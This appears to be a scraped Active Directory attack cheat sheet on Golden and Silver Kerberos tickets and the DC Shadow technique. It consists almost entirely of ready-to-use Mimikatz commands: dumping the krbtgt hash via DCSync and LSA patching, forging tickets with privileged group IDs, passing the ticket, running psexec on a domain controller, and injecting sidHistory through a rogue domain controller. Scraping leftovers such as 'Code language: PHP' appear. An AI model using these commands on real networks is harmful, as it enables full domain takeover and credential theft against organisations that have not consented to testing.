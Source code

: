 
**Golden and Silver Tickets**
-----------------------------

Keys depend of ticket : –> for a Golden, they are from the krbtgt account; –> for a Silver, it comes from the “computer account” or “service account”

```



lsadump::dcsync /domain:evil.corp /user:krbtgt
lsadump::lsa /inject
lsadump:::lsa /patch
lsadump::trust /patch






kerberos::golden /user:morph3 /domain:evil.corp /sid:domains-sid /krbtgt:krbtgt-hash /ticket:ticket.kirbi /groups:501,502,513,512,520,518,519 


kerberos::purge 
kerberos::ptt golden.tck 

powershell.exe -c "klist"

dir \\DC\C$
psexec.exe \\DC cmd.exe




kerberos::golden /user:morph3 /domain:domain /sid:domain-sid /target:evilcorp-sql102.evilcorp.local.1433 /service:MSSQLSvc /rc4:service-hash /ptt /id:1103
sqlcmd -S evilcorp-sql102.evilcorp.local
select SYSTEM_USER;
GO
kerberos::golden /user:JohnDoe /id:500 /domain:targetdomain.com /sid:S-1-5-21-1234567890-123456789-1234567890 /target:targetserver.targetdomain.com /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /pttCode language: PHP (php)
```


**DC Shadow**
-------------

DC Shadow attack aims to inject malicious Domain Controllers into AD infrastructure so that we can dump actual AD members.

```


wmic useraccount where (name='administrator' and domain='%userdomain%') get name,sid

lsadump::dcshadow /object:"CN=morph3,OU=Business,OU=Users,OU=ECORP,DC=ECORP,DC=local" /attribute:sidhistory /value:sid

lsadump::dcshadow /push


lsadump::dcsync /domain:ECORP.local /account:krbtgt

https:Code language: PHP (php)
```